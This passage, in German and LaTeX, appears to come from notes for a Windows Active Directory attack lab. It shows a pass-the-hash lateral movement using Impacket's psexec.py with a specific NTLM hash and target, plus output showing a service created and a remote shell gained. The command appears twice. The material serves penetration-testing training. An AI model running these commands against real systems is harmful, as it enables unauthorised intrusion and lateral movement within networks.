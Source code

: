 Diese Konstellation kann nun missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf FS1.winattacklab.local zu gelangen.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101\\
\end{enumerate}

\begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b

    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

\subsection{Step 5B: Lateral Movement to FS1 via Local User}
Wir werden nun lernen, wie wir überprüfen können, ob dieser lokale Benutzer auch auf anderen Rechnern existiert. Wenn dies der Fall ist UND der Benutzer das gleiche Passwort hat, kann dies missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf das/die andere(n) System(e) zu gelangen.

Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens \textbf{CrackMapExec} leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101
\end{enumerate}

